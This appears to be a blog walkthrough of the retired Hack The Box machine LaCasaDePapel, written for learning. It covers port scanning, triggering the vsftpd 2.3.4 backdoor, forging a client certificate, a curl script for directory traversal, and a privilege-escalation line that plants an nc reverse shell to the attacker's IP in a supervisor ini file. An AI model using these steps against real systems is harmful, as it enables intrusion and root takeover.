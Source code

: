 ```yaml
---
layout: post
title: "LaCasaDePapel: Hack The Box Walkthrough"
date: 2019-07-27 17:17:04 +0000
last_modified_at: 2019-07-27 17:17:18 +0000
category: Walkthrough
tags: ["Hack The Box", LaCasaDePapel, retired]
comments: true
image:
  feature: lacasadepapel-htb-walkthrough.jpg
  credit: thek / LaCasaDePapel
  creditlink: https://www.hackthebox.eu/home/machines/profile/181
---
```


This post documents the complete walkthrough of LaCasaDePapel, a retired vulnerable [VM][1] created by [thek][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## Background

LaCasaDePapel is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.131 --rate=500              

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-04-05 07:58:16 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.131
Discovered open port 22/tcp on 10.10.10.131
Discovered open port 443/tcp on 10.10.10.131
Discovered open port 21/tcp on 10.10.10.131
```

`masscan` finds several open ports. Let's do one better with `nmap` scanning the discovered ports to establish the services behind them.

```
# nmap -n -v -Pn -p21,22,80,443 -A --reason -oN nmap.txt 10.10.10.131
...
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 63 vsftpd 2.3.4
22/tcp   open   ssh      syn-ack ttl 63 OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey:                                                    
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)    
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)   
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp   open  http    syn-ack ttl 63 Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: La Casa De Papel
443/tcp  open  https?  syn-ack ttl 63
| http-methods:
|_  Supported Methods: POST OPTIONS
```

What do we have here? vsftpd 2.3.4 has a famous backdoor in `6200/tcp`.

### VSFTPD v2.3.4 Backdoor Command Execution

It's pretty trivial to initiate the backdoor. Any attempts to log in with a username ending with a smiley face `:)` will trigger the backdoor to open. Once that's done, simply `nc 10.10.10.131 6200`.

_Open the backdoor_

<a class="image-popup">
![0719d368.png](/assets/images/posts/lacasadepapel-htb-walkthrough/0719d368.png)
</a>

_Connect to the backdoor_

<a class="image-popup">
![f4fef185.png](/assets/images/posts/lacasadepapel-htb-walkthrough/f4fef185.png)
</a>

We'll leave the Psy Shell for a while and take a look at the `http` and `https` services.

_`80/tcp`_

<a class="image-popup">
![a11bf985.png](/assets/images/posts/lacasadepapel-htb-walkthrough/a11bf985.png)
</a>

_`443/tcp`_

<a class="image-popup">
![42f50941.png](/assets/images/posts/lacasadepapel-htb-walkthrough/42f50941.png)
</a>

Looks like I need to generate some kind of client certificate in order to access the `https` service.

### Generating a Client Certificate.

Back in our Psy Shell, check what's in store for us.

<a class="image-popup">
![3439fae5.png](/assets/images/posts/lacasadepapel-htb-walkthrough/3439fae5.png)
</a>

Sure, we can generate a client certificate. If only we can find the CA certificate. Wait a tick, it's a two-way SSL right? I can download or export a copy of CA certificate from the site.

<a class="image-popup">
![290070d3.png](/assets/images/posts/lacasadepapel-htb-walkthrough/290070d3.png)
</a>

Let's hit that Export button to grab a copy of the so-called CA certificate. Ok, that was easy, what's step two? We generate a certificate signing request (CSR) with `openssl`.

_Generate my own private key_

<a class="image-popup">
![9754161e.png](/assets/images/posts/lacasadepapel-htb-walkthrough/9754161e.png)
</a>

_Generate my certificate signing request_

<a class="image-popup">
![1e9b18ea.png](/assets/images/posts/lacasadepapel-htb-walkthrough/1e9b18ea.png)
</a>

Awesome. We have all the ingredients ready to cook ourselves a client certificate. Now back to our Psy Shell.

...

We can `base64_decode` our `$caCert` and `$useCsr` in the Psy Shell like so.

<a class="image-popup">
![265b35e1.png](/assets/images/posts/lacasadepapel-htb-walkthrough/265b35e1.png)
</a>

Do likewise for our CSR.

<a class="image-popup">
![8690d3ea.png](/assets/images/posts/lacasadepapel-htb-walkthrough/8690d3ea.png)
</a>

Repeat the steps listed in the private `sign()` function.

_Grab the CA key_

<a class="image-popup">
![8eefdfdb.png](/assets/images/posts/lacasadepapel-htb-walkthrough/8eefdfdb.png)
</a>

_Sign our client certificate_

<a class="image-popup">
![48551577.png](/assets/images/posts/lacasadepapel-htb-walkthrough/48551577.png)
</a>

_Export the client certificate_

<a class="image-popup">
![d87fe7a8.png](/assets/images/posts/lacasadepapel-htb-walkthrough/d87fe7a8.png)
</a>

Copy the client certificate in the PEM format to my attacking machine and combine with the private key generated earlier to a PCKS#12 certificate format because that's what Firefox accepts.

<a class="image-popup">
![8a336748.png](/assets/images/posts/lacasadepapel-htb-walkthrough/8a336748.png)
</a>

Import the client certificate to Firefox.

<a class="image-popup">
![d79d838a.png](/assets/images/posts/lacasadepapel-htb-walkthrough/d79d838a.png)
</a>

We can now access the `https` service.

<a class="image-popup">
![a610aabd.png](/assets/images/posts/lacasadepapel-htb-walkthrough/a610aabd.png)
</a>

### Directory Traversal Vulnerability

It's not long before I spotted a directory traversal vulnerability with `server.js`. Not only that, I can also download any file as `berlin`.

<a class="image-popup">
![cd1e84f6.png](/assets/images/posts/lacasadepapel-htb-walkthrough/cd1e84f6.png)
</a>

Towards that end, I wrote a real simple `bash` script to read any file as `berlin`.

<div class="filename"><span>read.sh</span></div>

```bash
#!/bin/bash

URL=https://lacasadepapel.htb/file
FILE=$(echo -n ../../..$1 | base64 -w0)

curl -s \
     -k \
     --cert-type P12 \
     -E me.p12 \
     $URL/$FILE
```

Here\'s `user.txt`.

<a class="image-popup">
![13c35673.png](/assets/images/posts/lacasadepapel-htb-walkthrough/13c35673.png)
</a>

## Privilege Escalation

During enumeration of `berlin`\'s account, I chanced upon the fact that `berlin`'s SSH key pair is available for download.

<a class="image-popup">
![feed4d9a.png](/assets/images/posts/lacasadepapel-htb-walkthrough/feed4d9a.png)
</a>

Needless to say, I went ahead to download the key pair. Now, this is where I was stucked for a while. Who would have guessed that `berlin`'s key can log in to `professor`'s SSH account when you have no access to `professor`\'s `.ssh/authorized_keys`? Not unless you watch the TV show and know the relationship between Professor and Berlin.

Once you can obtain a shell as `professor`, the rest is easy...

You'll notice the presence of read-only file `memcached.ini` in `professor`'s home directory. Heck, it's `professor`'s turf right? He can remove any file and recreate his own!

```
echo y | rm memcached.ini; echo "[program:memcached]" > memcached.ini; echo "command = sudo /usr/bin/nc 10.10.14.20 1234 -e /bin/bash" >> memcached.ini
```

A minute later, a root shell pops up and the rest is history...

<a class="image-popup">
![84b22297.png](/assets/images/posts/lacasadepapel-htb-walkthrough/84b22297.png)
</a>

:dancer:

## Afterthought

It doesn't have to be `memcached.ini`, you know. Any `ini` file will do because of this.

<a class="image-popup">
![97e7d4aa.png](/assets/images/posts/lacasadepapel-htb-walkthrough/97e7d4aa.png)
</a>

[1]: https://www.hackthebox.eu/home/machines/profile/181
[2]: https://www.hackthebox.eu/home/users/profile/4615
[3]: https://www.hackthebox.eu/
